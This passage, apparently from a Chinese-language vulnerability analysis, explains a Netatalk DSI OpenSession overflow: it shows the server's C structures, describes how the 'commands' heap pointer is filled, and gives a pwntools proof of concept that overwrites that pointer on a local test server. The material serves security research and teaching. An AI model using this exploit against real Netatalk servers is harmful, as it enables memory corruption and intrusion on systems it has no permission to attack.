 ```c
    char     *start;            /* current buffer head */
    char     *eof;              /* end of currently used buffer */
    char     *end;

#ifdef USE_ZEROCONF
    char *bonjourname;      /* server name as UTF8 maxlen MAXINSTANCENAMELEN */
    int zeroconf_registered;
#endif

    /* protocol specific open/close, send/receive
     * send/receive fill in the header and use dsi->commands.
     * write/read just write/read data */
    pid_t  (*proto_open)(struct DSI *);
    void   (*proto_close)(struct DSI *);
} DSI;

#define DSI_BLOCKSIZ 16
struct dsi_block {
    uint8_t dsi_flags;       /* packet type: request or reply */
    uint8_t dsi_command;     /* command */
    uint16_t dsi_requestID;  /* request ID */
    union {
        uint32_t dsi_code;   /* error code */
        uint32_t dsi_doff;   /* data offset */
    } dsi_data;
    uint32_t dsi_len;        /* total data length */
    uint32_t dsi_reserved;   /* reserved field */
};

#define DSI_DATASIZ       65536
```

所以可以覆写`attn_quantum/datasize/server_quantum/serverID/clientID/commands/data[DSI_DATASIZ]`这些成员。如果`commands`地址合法`server_quantum`会回传回来。

> 当服务器端主进程fork出一个新的连接后，`commands`指针的生命周期就开始了。当`dsi`结构初始化后，堆空间将分配出一块内存并赋给`commands`。每一条传入的AFP消息都将在被Netatalk的AFP函数处理前，先被写入`commands`指针里。`commands`占用的内存在连接终止后、程序退出前被释放。

所以输入的内容按照格式先存储在commands里然后再解析commands的内容。

跑一下这个poc:

```python
from pwn import *
import struct
p = remote("127.0.0.1", 5566)
dsi_opensession = "\x01" # attention quantum option
dsi_opensession += "\x18" # length
dsi_opensession += "A"*0x10+p64(0xdeadbeefcafebabe)  # 覆写commands指针为0xdeadbeefcafebabe
dsi_header = "\x00" # "request" flag
dsi_header += "\x04" # dsi_getsession中想要转到open_session需要dsi_command为DSIFUNC_OPEN
dsi_header += "\x00\x01" # request id
dsi_header += "\x00\x00\x00\x00" # data offset
dsi_header += struct.pack(">I", len(dsi_opensession))
dsi_header += "\x00\x00\x00\x00" # reserved
dsi_header += dsi_opensession
p.send(dsi_header)
p.recv(0x1c)
pause()
p.send(dsi_header)
p.interactive()
```
